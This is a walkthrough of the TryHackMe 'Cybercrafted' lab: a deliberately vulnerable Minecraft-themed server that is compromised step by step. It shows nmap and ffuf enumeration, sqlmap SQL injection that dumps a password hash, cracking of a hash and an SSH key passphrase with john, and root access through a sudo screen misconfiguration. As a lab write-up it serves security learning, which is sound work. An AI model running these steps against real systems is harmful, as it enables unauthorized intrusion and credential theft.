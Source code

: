 ```yaml
---
title: "Cybercrafted"
platform: "TryHackMe"
difficulty: "Medium"
date: 2024-02-20
tags: ["http", "other"]
---
```


![infocard](https://tryhackme-images.s3.amazonaws.com/room-icons/dd06737472c79a806e2049ddeb3af354.png)

## Introduction

CyberCrafted is a pay-to-win Minecraft server that involves exploiting SQL injection, weak credentials, and misconfigured permissions to gain root access. This walkthrough will guide you through the process of compromising the CyberCrafted server, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -p- 10.10.61.207 > nmap/service.log
```

**Nmap Results:**

```nmap
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-21 23:54 EST
Nmap scan report for cybercrafted.thm (10.10.61.207)
Host is up (0.17s latency).

PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:ce:b9:ac:72:8a:d7:a6:b7:8e:45:d0:ce:3c:00 (RSA)
|   256 e9:e7:33:8a:77:28:2c:d4:8c:6d:8a:2c:e7:88:95:30 (ECDSA)
|_  256 76:a2:b1:cf:1b:3d:ce:6c:60:f5:63:24:3e:ef:70:d8 (ED25519)
80/tcp    open  http      Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cybercrafted
25565/tcp open  minecraft Minecraft 1.7.2 (Protocol: 127, Message: ck00r lcCyberCraftedr ck00rrck00r e-TryHackMe-r  ck00r, Users: 0/1)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.57 seconds
```

**Key Services Identified:**

- **SSH (22):** OpenSSH 7.6p1
- **HTTP (80):** Apache httpd 2.4.29
- **Minecraft (25565):** Minecraft 1.7.2

### Web Enumeration

Visiting the HTTP service on port 80 revealed a static image. We added `cybercrafted.thm` to our `/etc/hosts` file to resolve the domain.

**Webpage:**

![Index Page](media/index_page.png)

**HTML Comment:**

```html
<!-- A Note to the developers: Just finished up adding other subdomains, now you can work on them! -->
```

### Subdomain Enumeration

Using `ffuf`, we discovered three subdomains:

```bash
ffuf -w /usr/share/wordlist/dirb/common.md -u http://cybercrafted.thm/ -H "Host: FUZZ.cybercrafted.thm"
```

**Subdomains Identified:**

- `www`
- `store`
- `admin`

**Admin Login Page:**

![Admin Login Page](media/admin_login.png)

## Exploiting SQL Injection

### Identifying the Vulnerability

The `/search.php` endpoint on `store.cybercrafted.thm` was vulnerable to SQL injection. We used `sqlmap` to exploit this vulnerability.

**Captured Request:**

```
POST /search.php HTTP/1.1
Host: store.cybercrafted.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://store.cybercrafted.thm
Connection: close
Referer: http://store.cybercrafted.thm/search.php
Upgrade-Insecure-Requests: 1

search=testing&submit=
```

**Exploiting with `sqlmap`:**

```bash
sqlmap -r sqltest --batch --dbs
```

**Databases Identified:**

```
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] webapp
```

**Extracted Credentials:**

```
xXUltimateCreeperXx:88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01
```

**Cracking the Hash:**

Using `john`, we cracked the hash to reveal the password: `di*************9`.

## Gaining Initial Access

### Logging into Admin Panel

Using the credentials `xXUltimateCreeperXx:di*************9`, we logged into the admin panel at `admin.cybercrafted.thm`.

**Admin Panel:**

![Admin Panel](media/admin_login.png)

### Extracting SSH Key

From the admin panel, we extracted the SSH private key for the user `xXUltimateCreeperXx`.

**SSH Key:**

![SSH Key](media/key.png)

### Cracking the SSH Key

The SSH key was encrypted. We used `ssh2john` and `john` to crack the passphrase.

```bash
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlist/rockyou.txt
```

**Cracked Passphrase:**

```
c*********6
```

### SSH Access

Using the SSH key and passphrase, we logged into the server as `xXUltimateCreeperXx`.

```bash
ssh -i id_rsa xXUltimateCreeperXx@10.10.61.207
```

## Privilege Escalation

### Escalating to `cybercrafted`

Enumerating the server, we discovered a Minecraft server running with a plugin called `loginsystem`. The plugin's log file contained credentials for the `cybercrafted` user.

**Log File:**

```
/opt/minecraft/cybercrafted/plugins/LoginSystem/log.txt
```

**Extracted Credentials:**

```
cybercrafted:J*****************k
```

### Escalating to `root`

The user `cybercrafted` had sudo permissions to run `/usr/bin/screen` as root.

**Sudo Permissions:**

```bash
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted
```

### Exploiting `screen`

Using `screen`, we created a new window with a root shell.

**Creating a New Window:**

```bash
sudo /usr/bin/screen -r cybercrafted
```

**Shortcut:**

```
ctrl+a+c
```

**Root Shell Obtained:**

![Root Shell](media/root.png)

## Conclusion

The CyberCrafted Minecraft server was compromised through a combination of SQL injection, weak credentials, and misconfigured permissions. By methodically enumerating services and exploiting discovered vulnerabilities, we successfully compromised the server and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.

## Resources

- [How To Use Linux Screen](https://linuxize.com/post/how-to-use-linux-screen/)